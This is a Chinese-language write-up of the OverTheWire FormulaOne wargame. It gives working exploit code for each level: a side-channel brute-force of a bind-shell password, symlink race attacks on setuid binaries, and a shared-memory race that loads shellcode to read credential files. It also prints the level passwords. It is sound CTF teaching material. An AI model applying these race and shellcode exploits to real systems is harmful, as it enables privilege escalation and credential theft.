



# FormulaOne

:::info

`FormulaOne` 是一款从 `intruded.net` 崩溃中解救出来的战争游戏，之前托管在 `formulaone.intruded.net`。

`FormulaOne` 的关卡分别称为 `formulaone0`、`formulaone1`、...... 等，可通过 SSH 在端口 2232 上访问 `formulaone.labs.overthewire.org`。

关卡的数据可在 `/formulaone/` 中找到。

第一个关卡的源代码可以通过登录托管在同一服务器上的战争游戏来访问。 你的首要任务是找出是哪个战争游戏。

:::

## First of all

首先，可以在 `Bandit` 这部分 wargame 中找到 `FormulaOne` 的资源

```shell
bandit1@bandit:~$ hostnamectl
 Static hostname: bandit
       Icon name: computer-vm
         Chassis: vm 🖴
      Machine ID: ec2dd69f90c4a6285216f71caca9bbca
         Boot ID: d0128cdc32f74d7fb3595d0dbaee5368
  Virtualization: amazon
Operating System: Ubuntu 24.04.1 LTS
          Kernel: Linux 6.8.0-1014-aws
    Architecture: x86-64
 Hardware Vendor: Amazon EC2
  Hardware Model: t3.medium
Firmware Version: 1.0
   Firmware Date: Mon 2017-10-16
    Firmware Age: 7y 2month 2w 5d
bandit1@bandit:~$ whoami
bandit1
bandit1@bandit:~$ ls -lh / | grep formulaone
drwxr-xr-x   3 root root 4.0K Sep 19 07:09 formulaone
bandit1@bandit:~$ ls -lh /formulaone
total 136K
-rwxr-x--- 1 formulaone0 formulaone0  16K Sep 19 07:09 formulaone0
-rwxr-xr-x 1 formulaone0 formulaone0 1.9K Sep 19 07:09 formulaone0.c
-rwsr-x--- 1 formulaone1 formulaone0  15K Sep 19 07:09 formulaone1
-rwxr-x--- 1 formulaone1 formulaone0  365 Sep 19 07:09 formulaone1.c
-rwsr-x--- 1 formulaone2 formulaone1  15K Sep 19 07:09 formulaone2
drwxr-xr-x 2 root        root        4.0K Sep 19 07:09 formulaone2_src
-rwsr-x--- 1 formulaone3 formulaone2  15K Sep 19 07:09 formulaone3
-rwxr-x--- 1 formulaone3 formulaone2  729 Sep 19 07:09 formulaone3.c
-rwsr-x--- 1 formulaone3 formulaone2  15K Sep 19 07:09 formulaone3-hard
-rwsr-x--- 1 formulaone5 formulaone3  16K Sep 19 07:09 formulaone5
-rwxr-x--- 1 formulaone5 formulaone3 2.1K Sep 19 07:09 formulaone5.c
-rwsr-x--- 1 formulaone6 formulaone5  15K Sep 19 07:09 formulaone6
-rwxr-x--- 1 formulaone6 formulaone5  657 Sep 19 07:09 formulaone6.c
```

## Level 0

提供了一份 C 语言代码

```c title="/formulaone/formulaone0.c"
#include <stdio.h>
#include <sys/socket.h>
#include <arpa/inet.h>
#include <netdb.h>
#include <string.h>
#include <unistd.h>
#include <stdlib.h>
#include <signal.h>

#define PORT 4091

int createsocket(int portno)
{
    int yes = 1;
    struct sockaddr_in addr;
    bzero(&addr, sizeof(addr));
    addr.sin_family = AF_INET;
    addr.sin_addr.s_addr = INADDR_ANY;
    addr.sin_port = htons(portno);

    int sock = socket(AF_INET, SOCK_STREAM, 0);
    if (sock < 0)
    {
        perror("open socket failed");
        return -1;
    }

    setsockopt(sock, SOL_SOCKET, SO_REUSEADDR, &yes, sizeof(int));

    if (bind(sock, (struct sockaddr *)&addr, sizeof(addr)) < 0)
    {
        perror("bind failed");
        close(sock);
        return -1;
    }

    if (listen(sock, 5) < 0)
    {
        perror("listen failed");
        close(sock);
        return -1;
    }

    return sock;
}

int read_byte(int fd)
{
    int ret;
    char buf = 0;
    //  sleep(1);
    ret = recv(fd, &buf, 1, 0);
    if (ret == 0)
    {
        printf("RECV FAIL :(\n");
        return -1;
    }
    if (ret < 0)
        return 0;

    return buf & 0xff;
}

#ifndef PASSWD
#define PASSWD "s3cret"
#endif

void client(int fd)
{
    int i = 0;

    send(fd, "Password:", 10, 0);
    for (i = 0; i < strlen(PASSWD); i++)
    {
        if (PASSWD[i] != read_byte(fd))
        {
            break;
        }
    }

    if (i != strlen(PASSWD))
    {
        send(fd, "WRONG PASSWORD\n", 15, 0);
        close(fd);
    }
    else
    {
        dup2(fd, 0);
        dup2(fd, 1);
        dup2(fd, 2);

        system("/bin/sh");
        printf("system just closed\n");
    }
    return;
}

int main()
{
    int fd;
    int n;
    struct sockaddr_in addr;
    socklen_t addrlen = sizeof(addr);

    signal(SIGCHLD, SIG_IGN);

    fd = createsocket(PORT);

    while (1)
    {
        n = accept(fd, (struct sockaddr *)&addr, &addrlen);
        //    printf("[+] Connection from %s\n", inet_ntoa(addr.sin_addr));
        if (fork() == 0)
        {
            close(fd);
            client(n);
            exit(0);
        }
        else
        {
            close(n);
        }
    }
}
```

简单理解一下，就是代码中硬编码了一个 `PASSWD` 字符串作为连接密码，如果用户有这个字符串，那么直接连接 `4091` 这个端口，输入密码，即可与 `/bin/sh` 进行交互

这里会有一个问题，就是接收用户输入是通过 `read_byte(fd)` 来实现的，那么就会导致，可以实现侧信道盲注

如果在按下回车之前，输入的字符与 `PASSWD` 一致，那么就会导致：输出 `WRONG PASSWORD` 提示，但是 socket 不会直接关闭

:::warning

需要注意的是，无法在远程直接实现这一部分，需要在其他任意同主机的 wargame 环境中进行测试

:::

由于直接操作 socket 会话存在一定难度，所以直接操作 `nc` 即可

```python
import subprocess
import time
import string


def check_password_with_nc(host, port, password):
    try:
        # 启动 netcat 进程
        process = subprocess.Popen(
            ["nc", host, str(port)],  # 启动 nc
            stdin=subprocess.PIPE,  # 标准输入
            stdout=subprocess.PIPE,  # 标准输出
            stderr=subprocess.PIPE,  # 标准错误
            text=True,  # 文本模式处理
        )

        # 读取初始提示，比如 "Password:"
        try:
            prompt = process.stdout.read(9)  # 假设提示为固定长度
            # print(f"Netcat prompt: {prompt.strip()}")
        except Exception as e:
            print(f"Failed to read prompt: {e}")
            process.terminate()
            return False

        # 发送密码
        process.stdin.write(password + "\n")  # 发送密码并换行
        process.stdin.flush()  # 确保立即发送数据

        # 等待一小段时间，检查进程是否退出
        time.sleep(0.2)  # 给 nc 一点时间处理密码
        if process.poll() is not None:  # 如果进程已退出
            return False
        else:
            return True

    except Exception as e:
        print(f"An error occurred: {e}")
        return False

    finally:
        # 确保进程被终止（即使密码正确）
        if process.poll() is None:  # 如果进程仍在运行
            process.terminate()  # 终止进程


# 示例使用
if __name__ == "__main__":
    host = "127.0.0.1"
    port = 4091

    dics = string.digits + string.ascii_letters
    passwd = ""

    while True:
        for i in dics:

            pwd = passwd + i
            print(f"[+]Trying -> {pwd}")

            is_correct = check_password_with_nc(host, port, pwd)

            if is_correct:
                print(f">>> Password {pwd} is correct! <<<")
                passwd += i
                break
            else:
                continue
```

在任意同主机 wargame 中运行此脚本，最终结果会显示为


即可确定最终的密码为 `2w9lMSElHLSu6PigGsugLYdKiLV9BH84`

## Level 1

登录 `Level 0` 账户

```shell
ssh formulaone0@formulaone.labs.overthewire.org -p 2232
```

即可进入 `formulaone0` 用户

```shell
formulaone0@bandit:~$ whoami
formulaone0
```

查看本关的挑战

```c title="/formulaone/formulaone1.c"
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <string.h>

int main(int argc, char **argv) {
    if (access(argv[1], R_OK) < 0) return 1;
    printf("Contents:\n");
    int f = open(argv[1], O_RDONLY);
    if(f < 0) return 1;
    char c;
    while (read(f,&c,1)) write(1,&c,1);
    return 0;
}
```

有两层检查，一是当前用户是否具有访问权限

```c
if (access(argv[1], R_OK) < 0) return 1;
```

二是具有 `suid` 权限的前提下，文件是否可读取

```c
int f = open(argv[1], O_RDONLY);
```

程序中间执行 `printf` 会占用一定时间，存在有条件竞争的可能性

尝试进行条件竞争，启动两个 SSH 会话，分别执行以下两个会话

```shell
for i in $(seq 100000);do /formulaone/formulaone1 /tmp/randark/12341;done

for i in $(seq 10000);do rm /tmp/randark/12341;echo 1234 > /tmp/randark/12341;rm /tmp/randark/12341;ln -sv /etc/formulaone_pass/formulaone1 /tmp/randark/12341;done
```



即可确定最终的密码为 `WUJPXwIoiBhedmDZceQ5DAUMq0JeI0eU`

## Level 2

登录 `Level 1` 账户

```shell
ssh formulaone1@formulaone.labs.overthewire.org -p 2232
```

查看本轮挑战

```shell
-rwsr-x--- 1 formulaone2 formulaone1  15K Sep 19 07:09 formulaone2
drwxr-xr-x 2 root        root        4.0K Sep 19 07:09 formulaone2_src
```

```c title="/formulaone/formulaone2_src/formulaone2.c"
#include <stdio.h>

int main(int argc, char *argv[]){
    char buf[256];
    FILE *f = fopen(mytmpnam(NULL),"r");
    fgets(buf, sizeof(buf), f);
    fwrite(buf, sizeof(buf), 1, stdout);
    return;
}
```

```c title="/formulaone/formulaone2_src/tmpnam.c"
#include <stdio.h>
#include <string.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <unistd.h>


#define PREFIX "/tmp/tmp_"
#define RNDLEN 4

char mytmpnam_buffer[100];

char *mytmpnam(char *s) {
    int i, seed, result, prefixlen = strlen(PREFIX);
    FILE *in;
    struct stat st;

    if(!(in = fopen("/dev/urandom", "r"))) return NULL;
    fread(&seed, sizeof(seed), 1, in);
    fclose(in);
    srand(seed);

    while(1) {
        strcpy(mytmpnam_buffer, PREFIX);
        for(i = prefixlen; i < prefixlen + RNDLEN; i++) {
            mytmpnam_buffer[i] = 'a' + (rand() % 26);
        }
        mytmpnam_buffer[i] = 0;

        if(stat(mytmpnam_buffer, &st) != 0) return mytmpnam_buffer;
    }

    return NULL;
}

#ifdef MAIN
void main() {
   printf("%s\n", mytmpnam(NULL));
}
#endif
```

对于 `mytmpnam` 而言，其负责基于 `/tmp/tmp_????` 掩码来生成一个文件名，掩码的字符范围是小写字母

经过检查，用户 `formulaone1` 无法列出 `/tmp` 目录下的文件，但是可以创建文件，可以考虑进行全部覆盖

但是 `mytmpnam` 返回路径的条件是，这个文件不存在，那么依然可以考虑竞争来实现

那么目标就变成，将所有 `/tmp/tmp_????` 文件都建立指向 `/etc/formulaone_pass/formulaone2` 的软连接，然后再单独留下一个文件作为不存在的文件，然后尝试进行竞争

对于 Python 而言，可以使用这份脚本

```python
import os
from string import ascii_lowercase

def create_tmp(data: str):
    for a1 in ascii_lowercase:
        for a2 in ascii_lowercase:
            for a3 in ascii_lowercase:
                for a4 in ascii_lowercase:
                    filename = "/tmp/tmp_" + a1 + a2 + a3 + a4
                    with open(filename, "w") as f:
                        f.write(data)
        print(f"a1: {a1}")


def link_tmp(src_path: str):
    for a1 in ascii_lowercase:
        for a2 in ascii_lowercase:
            for a3 in ascii_lowercase:
                for a4 in ascii_lowercase:
                    filename = "/tmp/tmp_" + a1 + a2 + a3 + a4
                    os.symlink(src_path, filename)
        print(f"a1: {a1}")


def clear_tmp():
    for a1 in ascii_lowercase:
        for a2 in ascii_lowercase:
            for a3 in ascii_lowercase:
                for a4 in ascii_lowercase:
                    filename = "/tmp/tmp_" + a1 + a2 + a3 + a4
                    os.remove(filename)
        print(f"a1: {a1}")


if __name__ == "__main__":
    action = input("Enter action (create/clear/link):")
    if action == "create":
        src_path = input("File data:")
        create_tmp(src_path)
    if action == "link":
        src_path = input("Enter source path:")
        link_tmp(src_path)
    elif action == "clear":
        clear_tmp()
    else:
        print("Invalid action")
```

先执行全部所有 `/tmp/tmp_????` 文件都建立指向 `/etc/formulaone_pass/formulaone2` 的软连接

```shell
formulaone1@bandit:/tmp/randark$ python3 formulaone2.py
Enter action (create/clear/link): link
Enter source path: /etc/formulaone_pass/formulaone2
a1: a
a1: b
a1: c
a1: d
a1: e
a1: f
a1: g
a1: h
a1: i
a1: j
a1: k
a1: l
a1: m
a1: n
a1: o
a1: p
a1: q
a1: r
a1: s
a1: t
a1: u
a1: v
a1: w
a1: x
a1: y
a1: z
```

建立链接之后，考虑到程序的反应时间，无法使用 python 脚本来实现竞争，那么用 c 来写一个

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
    while (1) {

        // 删除文件
        if (unlink("/tmp/tmp_aaaa") == -1) {
            perror("Error deleting /tmp/tmp_aaaa");
        }

        // 创建软链接
        if (symlink("/etc/formulaone_pass/formulaone2", "/tmp/tmp_aaaa") == -1) {
            perror("Error creating symlink");
        }

    }

    return 0;
}
```

其将会在运行期间不断取消 `/tmp/tmp_aaaa` 文件的软链接，并接着建立 `/tmp/tmp_aaaa` 指向 `/etc/formulaone_pass/formulaone2` 的软链接

在循环的运行期间，同时执行 `/formulaone/formulaone2` 程序，那么 `mytmpnam` 的运行时间差与竞争程序的运行时间差就有可能交错，进而满足 `mytmpnam` 的判断逻辑

需要注意的是，由于 `mytmpnam` 的生成可能性是 26^4 种，所以竞争的可能性较多，需要等待一定时间

:::note

如果想要跟踪判断 `/formulaone/formulaone2` 的运行过程，可以使用 `strace /formulaone/formulaone2` 进行跟踪

:::

开两个 SSH 会话，各自执行

```shell
# compiled from c code above
./death

for i in $(seq 1000);do echo $i; /formulaone/formulaone2 ;done
```

理想情况下，应该在 10 次循环内成功（竞争看运气）



即可确定最终的密码为 `OvQAKUM3BrvbH4pKjBJBCOUpTGSDjNum`

## Level 3

登录 `Level 2` 账户

```shell
ssh formulaone2@formulaone.labs.overthewire.org -p 2232
```

查看挑战

```c title="/formulaone/formulaone3.c"
/*'09 codegate chal
PROVE YOUR MIGHT
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/types.h>
#include <linux/shm.h>
#include <time.h>

unsigned int keys[] = {0xADCADC00, 0xADC00ADC, 0x00ADCADC, 0x0ADCADC0};
unsigned int SHMKEY;

struct msg
{
    int sz;
    char ptr[1024];
} msg;

struct msg *echo;

void doecho()
{
    int shmid;
    char buf[256];
    shmid = shmget(SHMKEY, 8192, IPC_CREAT | 0777);
    echo = shmat(shmid, NULL, SHM_EXEC);

    if (echo->sz)
    {
        if (echo->sz < sizeof(buf))
        {
            printf("The msg is...\n");
            memcpy(buf, echo->ptr, echo->sz);
            printf("%s\n", buf);
        }
    }
}

int main(int argc, char *argv[])
{
    if (!argv[1])
        return 0;
    SHMKEY = keys[argv[1][0] & 3];
    doecho();
}
```

首先，先尝试使用 `strace` 跟踪程序执行，不带任何参数执行一次

```shell
formulaone2@bandit:/formulaone$ strace /formulaone/formulaone3
execve("/formulaone/formulaone3", ["/formulaone/formulaone3"], 0x7fffffffe340 /* 27 vars */) = 0
[Process PID=1790473 runs in 32 bit mode.]
brk(NULL)                               = 0x804d000
fcntl64(0, F_GETFD)                     = 0
fcntl64(1, F_GETFD)                     = 0
fcntl64(2, F_GETFD)                     = 0
mmap2(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xf7fc1000
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
openat(AT_FDCWD, "/etc/ld.so.cache", O_RDONLY|O_LARGEFILE|O_CLOEXEC) = 3
statx(3, "", AT_STATX_SYNC_AS_STAT|AT_NO_AUTOMOUNT|AT_EMPTY_PATH, STATX_BASIC_STATS, {stx_mask=STATX_BASIC_STATS|STATX_MNT_ID, stx_attributes=0, stx_mode=S_IFREG|0644, stx_size=31699, ...}) = 0
mmap2(NULL, 31699, PROT_READ, MAP_PRIVATE, 3, 0) = 0xf7fb9000
close(3)                                = 0
openat(AT_FDCWD, "/lib/i386-linux-gnu/libc.so.6", O_RDONLY|O_LARGEFILE|O_CLOEXEC) = 3
read(3, "\177ELF\1\1\1\3\0\0\0\0\0\0\0\0\3\0\3\0\1\0\0\0\0O\2\0004\0\0\0"..., 512) = 512
statx(3, "", AT_STATX_SYNC_AS_STAT|AT_NO_AUTOMOUNT|AT_EMPTY_PATH, STATX_BASIC_STATS, {stx_mask=STATX_BASIC_STATS|STATX_MNT_ID, stx_attributes=0, stx_mode=S_IFREG|0755, stx_size=2313128, ...}) = 0
mmap2(NULL, 2341052, PROT_READ, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0xf7d7d000
mmap2(0xf7da0000, 1601536, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x23000) = 0xf7da0000
mmap2(0xf7f27000, 544768, PROT_READ, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x1aa000) = 0xf7f27000
mmap2(0xf7fac000, 12288, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x22f000) = 0xf7fac000
mmap2(0xf7faf000, 39100, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS, -1, 0) = 0xf7faf000
close(3)                                = 0
set_thread_area({entry_number=-1, base_addr=0xf7fc24c0, limit=0x0fffff, seg_32bit=1, contents=0, read_exec_only=0, limit_in_pages=1, seg_not_present=0, useable=1}) = 0 (entry_number=12)
set_tid_address(0xf7fc2528)             = 1790473
set_robust_list(0xf7fc252c, 12)         = 0
rseq(0xf7fc2960, 0x20, 0, 0x53053053)   = 0
mprotect(0xf7fac000, 8192, PROT_READ)   = 0
mprotect(0x804b000, 4096, PROT_READ)    = 0
mprotect(0xf7ffb000, 8192, PROT_READ)   = 0
ugetrlimit(RLIMIT_STACK, {rlim_cur=8192*1024, rlim_max=RLIM_INFINITY}) = 0
munmap(0xf7fb9000, 31699)               = 0
exit_group(0)                           = ?
+++ exited with 0 +++
```

然后带上一个参数执行一次

```shell
formulaone2@bandit:/formulaone$ strace /formulaone/formulaone3 abc
execve("/formulaone/formulaone3", ["/formulaone/formulaone3", "abc"], 0x7fffffffe338 /* 27 vars */) = 0
[Process PID=1790503 runs in 32 bit mode.]
brk(NULL)                               = 0x804d000
fcntl64(0, F_GETFD)                     = 0
fcntl64(1, F_GETFD)                     = 0
fcntl64(2, F_GETFD)                     = 0
mmap2(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xf7fc1000
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
openat(AT_FDCWD, "/etc/ld.so.cache", O_RDONLY|O_LARGEFILE|O_CLOEXEC) = 3
statx(3, "", AT_STATX_SYNC_AS_STAT|AT_NO_AUTOMOUNT|AT_EMPTY_PATH, STATX_BASIC_STATS, {stx_mask=STATX_BASIC_STATS|STATX_MNT_ID, stx_attributes=0, stx_mode=S_IFREG|0644, stx_size=31699, ...}) = 0
mmap2(NULL, 31699, PROT_READ, MAP_PRIVATE, 3, 0) = 0xf7fb9000
close(3)                                = 0
openat(AT_FDCWD, "/lib/i386-linux-gnu/libc.so.6", O_RDONLY|O_LARGEFILE|O_CLOEXEC) = 3
read(3, "\177ELF\1\1\1\3\0\0\0\0\0\0\0\0\3\0\3\0\1\0\0\0\0O\2\0004\0\0\0"..., 512) = 512
statx(3, "", AT_STATX_SYNC_AS_STAT|AT_NO_AUTOMOUNT|AT_EMPTY_PATH, STATX_BASIC_STATS, {stx_mask=STATX_BASIC_STATS|STATX_MNT_ID, stx_attributes=0, stx_mode=S_IFREG|0755, stx_size=2313128, ...}) = 0
mmap2(NULL, 2341052, PROT_READ, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0xf7d7d000
mmap2(0xf7da0000, 1601536, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x23000) = 0xf7da0000
mmap2(0xf7f27000, 544768, PROT_READ, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x1aa000) = 0xf7f27000
mmap2(0xf7fac000, 12288, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x22f000) = 0xf7fac000
mmap2(0xf7faf000, 39100, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS, -1, 0) = 0xf7faf000
close(3)                                = 0
set_thread_area({entry_number=-1, base_addr=0xf7fc24c0, limit=0x0fffff, seg_32bit=1, contents=0, read_exec_only=0, limit_in_pages=1, seg_not_present=0, useable=1}) = 0 (entry_number=12)
set_tid_address(0xf7fc2528)             = 1790503
set_robust_list(0xf7fc252c, 12)         = 0
rseq(0xf7fc2960, 0x20, 0, 0x53053053)   = 0
mprotect(0xf7fac000, 8192, PROT_READ)   = 0
mprotect(0x804b000, 4096, PROT_READ)    = 0
mprotect(0xf7ffb000, 8192, PROT_READ)   = 0
ugetrlimit(RLIMIT_STACK, {rlim_cur=8192*1024, rlim_max=RLIM_INFINITY}) = 0
munmap(0xf7fb9000, 31699)               = 0
shmget(0xadc00adc, 8192, IPC_CREAT|0777) = 0
shmat(0, NULL, SHM_EXEC)                = 0xf7fbf000
exit_group(0)                           = ?
+++ exited with 0 +++
```

很明显，多了几步

```shell
shmget(0xadc00adc, 8192, IPC_CREAT|0777) = 0
shmat(0, NULL, SHM_EXEC)                = 0xf7fbf000
```

结合源码来看，其逻辑用 python 表达就是

```python
[0xADCADC00, 0xADC00ADC, 0x00ADCADC, 0x0ADCADC0][ord("abc"[0]) & 3] == 0xADC00ADC
```

那么说明，这个程序可以从 4 个共享内存中读取数据

并且检查程序的保护措施

```shell
formulaone2@bandit:/tmp/randark/formulaone-3$ checksec --dir=/formulaone | grep formulaone3
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY  Fortified     Fortifiable    Filename
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   46 Symbols      No       0             1              /formulaone/formulaone3-hard
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   45 Symbols      No       0             1              /formulaone/formulaone3

formulaone2@bandit:/tmp/randark/formulaone-3$ file /formulaone/formulaone3*
/formulaone/formulaone3:      setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=7fd7ce5e151e4e6d79f6f3d6314fc62f7730743e, for GNU/Linux 3.2.0, not stripped
/formulaone/formulaone3.c:    C source, ASCII text
/formulaone/formulaone3-hard: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=a570311fc5a726677c240a0e7dcf7cb3388fa4e1, for GNU/Linux 3.2.0, not stripped
```

可以看到，关闭了 `Canary` 保护，可以考虑 `ret2shellcode`

需要注意的是，环境只是提供了`suid`权限，那么即使getshell之后，也无法直接切换到`formulaone3`用户。那么目标就很明确了，直接打文件读取即可

首先，先生成shellcode

```python
from pwn import *

payload = asm(shellcraft.cat('/etc/formulaone_pass/formulaone3'))

print(list(payload))
```

得到shellcode之后，从共享内存部分下手，写入shellcode进`msg->ptr`的同时，满足条件竞争

`echo->sz`先保证小于`buf`的长度，通过长度检查，然后改`echo->sz`为能完整读取`shellcode`的值，进而可以加载shellcode

```c
/*'09 codegate chal
PROVE YOUR MIGHT
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/types.h>
#include <sys/shm.h>
#include <sys/sem.h>
#include <unistd.h>

unsigned int keys[] = {0xADCADC00, 0xADC00ADC, 0x00ADCADC, 0x0ADCADC0};
unsigned int SHMKEY;

struct msg
{
    int sz;
    int ptr[1024 / 4];
} msg;

struct msg *echo;

int main(int argc, char *argv[])
{
    SHMKEY = keys[0];
    int shmid;

    unsigned char *base;
    unsigned char *target;

    shmid = shmget(SHMKEY, 8192, IPC_CREAT | 0777);
    echo = shmat(shmid, NULL, SHM_EXEC);

    memset(echo, 0x90, 0x200);

    // struct shmid_ds buf1;
    // shmctl(shmid, IPC_STAT, &buf1);
    // buf1.shm_perm.mode = 0222; // 设置新权限为 0600（仅所有者可读写）
    // shmctl(shmid, IPC_SET, &buf1);
    // shmctl(shmid, IPC_RMID, NULL);

    unsigned char shellcode[] = {
        // Shellcode
    };
    base = (unsigned char *)echo;
    target = base + 0x20;
    memcpy(target, shellcode, sizeof(shellcode));

    target = base + 0x110;
    ((int *)target)[0] = 0x804C484 - 4; // echo address
    ((int *)target)[1] = 0x8049238;     // leave ret

    // 竞争判断条件
    while (1)
    {
        echo->sz = 0xff;
        echo->sz = 0x2eb;
        echo->sz = 0x2eb;
    }
}

```



即可确定最终的密码为 `Liqb5fEvP7IjKWZpoFOdYfQT494msxyv`

## Level 5

登录 `Level 3` 账户

```shell
ssh formulaone3@formulaone.labs.overthewire.org -p 2232
```

查看挑战的代码

```c

```
